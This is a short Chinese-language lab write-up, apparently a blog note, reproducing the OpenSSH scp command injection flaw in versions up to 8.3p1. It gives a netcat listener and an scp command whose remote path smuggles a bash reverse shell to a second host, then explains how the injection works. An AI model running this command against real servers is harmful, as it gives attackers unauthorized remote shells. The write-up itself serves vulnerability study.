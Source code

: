 # 漏洞实验

最近看好多大佬都在复现这个OpenSSH命令注入漏洞。

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

漏洞影响版本：OpenSSH =< 8.3p1



查看版本：`ssh -V`



环境：

```
10.100.3.1 server01
10.100.3.2 server02
```

在 server02 上执行（ps: 一会这个命令行就可以执行 server01 上的任意命令。）：

```bash
$ nc -lvvp 7777
```

在 server02 上再启动一个命令行，执行：

```bash
$ scp test.txt user@server01:'`bash -i >& /dev/tcp/server02/7777 0>&1`/tmp/test1.txt'
```

这样执行过之后，第一个命令行就可以执行 user 用户的任意命令了。

这利用了 scp 过程中，服务端需要先计算路径，在计算路径的过程中，注入`bash -i >& /dev/tcp/server02/7777 0>&1`命令，这个命令新启动一个服务端的命令行，并且这个新的服务端的命令行的输入和输出都重定向到 TCP 连接中！